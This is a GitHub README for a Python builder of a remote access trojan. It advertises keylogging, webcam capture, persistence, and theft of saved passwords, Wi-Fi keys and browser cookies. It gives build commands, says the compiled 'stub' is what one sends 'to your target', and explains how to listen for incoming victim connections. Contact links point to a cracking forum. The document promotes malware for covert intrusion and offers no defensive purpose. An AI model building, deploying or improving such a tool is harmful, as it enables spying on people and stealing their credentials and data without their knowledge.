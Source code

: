 <!-- PROJECT SHIELDS -->
[![Forks][forks-shield]][forks-url]
[![Stargazers][stars-shield]][stars-url]
[![Issues][issues-shield]][issues-url]

# About The Project
A (remote access tool) builder written in python.
![running the tool](https://i.imgur.com/zCQSJMu.jpg)

## Features

 - Take camera snapshots.

 - Take screenshots.

 - Can Download files.

 - Upload files.

 - Keylogger.

 - Persistence.

 - Show wifi names and passwords.

 - Bind with a seperate file.

 - Get saved usernames and passwords.

 - Get browser cookies.


### Installation

1. Clone the repo
   ```sh
   git clone https://github.com/herawenn/Remote-Access
   ```
2. Install requirements
   ```sh
   pip install -r requirements.txt
   ```
3. Run the program
   ```sh
   python builder.py -ip <ip_address> -p <port_number>
   ```

<!-- USAGE EXAMPLES -->
## Usage

* **-ip** = `Set the ip address`
*  **-p** = `Set the port number`
*  **-i** = `Set the icon`
*  **-f** = `Set the file to bind`

! To use an icon or bind with another file, they must be in the main directory of the project

`builder.py` will compile `client.py` into an executable (located in the 'dist' folder)
This exe (also known as a 'stub') is what you will send to your target.

Listen for incoming connections:
`python server.py -ip <ip_addres> -p <port_number>`

Once a connections is established, you can run commands on the target machine remotely.
Try `Help` to get started.

<!-- CONTRIBUTING -->
## Contributing

Contributions are what make the open source community such an amazing place to learn, inspire, and create. Any contributions you make are **greatly appreciated**.

If you have a suggestion that would make this better, please fork the repo and create a pull request. You can also simply open an issue with the tag "enhancement".
Don't forget to give the project a star! Thanks again!

1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/AmazingFeature`)
3. Commit your Changes (`git commit -m 'Add some AmazingFeature'`)
4. Push to the Branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request

<!-- CONTACT -->
## Contact

[Telegram](https://t.me/mulicious) 
[Discord](https://discord.gg/portlords)
[Cracked](https://cracked.io/herawen)
Project Link: [https://github.com/herawenn/Remote-Access](https://github.com/herawenn/Remote-Access)

<p align="right">(<a href="#readme-top">back to top</a>)</p>

[forks-shield]: https://img.shields.io/github/forks/herawenn/Remote-Access.svg?style=for-the-badge
[forks-url]: https://github.com/herawenn/Remote-Access/network/members
[stars-shield]: https://img.shields.io/github/stars/herawenn/Remote-Access.svg?style=for-the-badge
[stars-url]: https://github.com/herawenn/Remote-Access/stargazers
[issues-shield]: https://img.shields.io/github/issues/herawenn/Remote-Access.svg?style=for-the-badge
[issues-url]: https://github.com/herawenn/Remote-Access/issues
